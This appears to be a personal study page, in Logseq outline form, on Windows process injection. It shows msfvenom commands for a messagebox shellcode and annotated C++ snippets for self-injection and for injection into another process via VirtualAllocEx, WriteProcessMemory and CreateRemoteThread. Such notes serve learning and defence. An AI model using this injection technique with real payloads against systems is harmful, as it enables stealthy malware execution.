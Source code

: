 - Processes - Identified by PID
  collapsed:: true
	- Types
		- User Mode
		- Kernel Mode -> Higher Privileges
	- PIDs can be used to get *Handles* to processes
	- ![image.png](../assets/image_1721972523672_0.png)
- Windows API
  collapsed:: true
	- some APIs return pointers to `struct`
- Injection Attack -> Fileless shellcode execution
	- Find an existing process and inject malicious shell code
	- Steps
		- Allocation Memory
		  logseq.order-list-type:: number
		- Write Shell Code
		  logseq.order-list-type:: number
		- Execute Shell Code
		  logseq.order-list-type:: number
	- Metasploit Shell Code - `msfvenom -p windows/messagebox TEXT="ShellCode by MSFVenom" Title="Shell Code" -f c`
	- For process injection into `mspaint` - `x64` is required
		- `msfvenom -p windows/messagebox TEXT="ShellCode by MSFVenom" Title="Shell Code" -f c -a x64`
-
---
- **self-injection.cpp**
  collapsed:: true
	- Step 1 -> Allocating memory
		-
		  ```
		  LPVOID allocated_mem = VirtualAlloc(NULL, // -> Base Address of block of memory for allocation [NULL-> OS will decide]
		                         sizeof(shellcode),
		                         (MEM_COMMIT | MEM_RESERVE), // -> Allocation Type [Reserve + Commit] [logic OR -> x3000]
		                         PAGE_EXECUTE_READWRITE); // -> Page Permissions
		  ```
		- `VirtualAlloc` will return a base pointer to the start of the memory page created
			- base pointer is of type `void pointer`
			- `void pointer` points to an `undefined` data type in memory
	- Step 2 -> Write Shell Code to Allocated Memory
		-
		  ```
		  RtlCopyMemory(allocated_mem, # destination
		  			  shellcode, # source
		                sizeof(shellcode));
		  ```
	- Step 3 -> Execute Shell Code
		-
		  ```
		  HANDLE hThread =  CreateThread(NULL,
		  							   0,
		                                 (LPTHREAD_START_ROUTINE)allocated_mem, # Start of the code that must be executed when thread is created 
		                                 NULL,
		                                 0,
		                                 NULL);
		  ```
			- Halt program till thread finishes execution (time set to `INFINITE`)
				- `WaitForSingleObject(hThread, INFINITE)`
		-
- **process-injection.cpp**
	- Step 0 -> Get a Handle to an existing process
		-
		  ```
		  HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, // access all process resources
		  							  FALSE, // child processes are not inherited by handle
		                                pe32.th32ProcessID); // since PIDs change, take a snapshot and obtain PID of required software
		  ```
	- Step 1 -> Allocate Virtual Memory
		- Use `VirtualAllocEx` to allocate a memory page in the target process' memory space
			-
			  ```
			  LPVOID allocated_mem = VirtualAllocEx(hProcess, -> Handle to target process
			                                        NULL,
			                                        sizeof(shellcode),
			                                        (MEM_COMMIT | MEM_RESERVE),
			                                        PAGE_EXECUTE_READWRITE);
			  ```
	- Step 2 -> Write Shell Code to Allocated Memory
		-
		  ```
		      WriteProcessMemory(hProcess, -> Handle to target process
		                         allocated_mem,
		                         shellcode,
		                         sizeof(shellcode),
		                         NULL);
		  ```
	- Step 3 -> Execute Shell Code
		- Create a remote thread to execute a shellcode
			-
			  ```
			  	HANDLE hThread = CreateRemoteThread(hProcess,
			  										NULL, 
			  										0,
			  										(LPTHREAD_START_ROUTINE)allocated_mem,
			  										NULL, 
			  										0, 
			  										NULL);
			  ```
